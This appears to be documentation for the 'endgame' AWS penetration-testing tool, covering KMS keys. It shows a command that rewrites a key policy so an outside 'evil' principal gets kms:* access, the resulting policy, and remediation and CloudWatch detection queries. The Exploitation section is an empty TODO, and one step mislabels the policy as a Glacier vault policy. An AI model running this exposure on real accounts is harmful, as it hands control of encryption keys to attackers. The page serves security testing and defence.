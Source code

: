 # KMS Keys

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service kms --name test-resource-exposure
```

* To view the contents of the Glacier Vault Access Policy, run the following:

```bash
export VICTIM_KEY_ARN=arn:aws:kms:us-east-2:111122223333:key/1234abcd-12ab-34cd-56ef-1234567890ab

aws kms get-key-policy --key-id $VICTIM_KEY_ARN --policy-name default
```

* Observe that the output of the overly permissive KMS Key Policy resembles the example shown below.

## Example

Observe that the policy below allows the evil principal (`arn:aws:iam::999988887777:user/evil`) the `kms:*` permissions to the KMS Key.

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "Endgame",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::999988887777:user/evil"
            },
            "Action": "kms:*",
            "Resource": "arn:aws:kms:us-east-1:111122223333:key/1234abcd-12ab-34cd-56ef-1234567890ab"
        }
    ]
}
```

## Exploitation

```
TODO
```

## Remediation
* **Trusted Accounts Only**: Ensure that KMS Keys are only shared with trusted accounts, and that the trusted accounts truly need access to the key.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to  KMS Keys. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your KMS Keys**: Tightly control access to the following IAM actions:
  - [kms:PutKeyPolicy](https://docs.aws.amazon.com/kms/latest/APIReference/API_PutKeyPolicy.html): _Controls permission to replace the key policy for the specified customer master key_
  - [kms:GetKeyPolicy](https://docs.aws.amazon.com/kms/latest/APIReference/API_GetKeyPolicy.html): _Controls permission to view the key policy for the specified customer master key_
  - [kms:ListKeys](https://docs.aws.amazon.com/kms/latest/APIReference/API_ListKeys.html): _Controls permission to view the key ID and Amazon Resource Name (ARN) of all customer master keys in the account_
  - [kms:ListAliases](https://docs.aws.amazon.com/kms/latest/APIReference/API_ListAliases.html): _Controls permission to view the aliases that are defined in the account. Aliases are optional friendly names that you can associate with customer master keys_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='kms.amazonaws.com' and eventName='PutKeyPolicy'
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='kms.amazonaws.com' and (eventName='PutKeyPolicy' and requestParameters.policy like 'Endgame')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [put-key-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/kms/put-key-policy.html)
* [get-key-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/kms/get-key-policy.html)